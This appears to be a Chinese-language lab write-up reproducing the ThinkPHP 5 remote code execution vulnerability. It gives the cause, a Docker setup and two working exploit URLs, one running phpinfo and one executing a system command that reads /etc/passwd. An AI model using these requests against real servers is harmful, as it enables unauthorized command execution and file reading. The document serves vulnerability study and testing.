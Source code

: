 # ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞

## 漏洞描述

ThinkPHP是一款运用极广的PHP开发框架。其版本5中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。

参考链接：

- http://www.thinkphp.cn/topic/60400.html
- http://www.thinkphp.cn/topic/60390.html
- https://xz.aliyun.com/t/3570

## 环境搭建

运行ThinkPHP 5.0.20版本：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到ThinkPHP默认启动页面。

## 漏洞复现

直接访问`http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1`，即可执行phpinfo：

![image-20220302150446791](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021504893.png)

执行系统命令：

```
http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20/etc/passwd
```

![image-20220302150508363](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021505433.png)

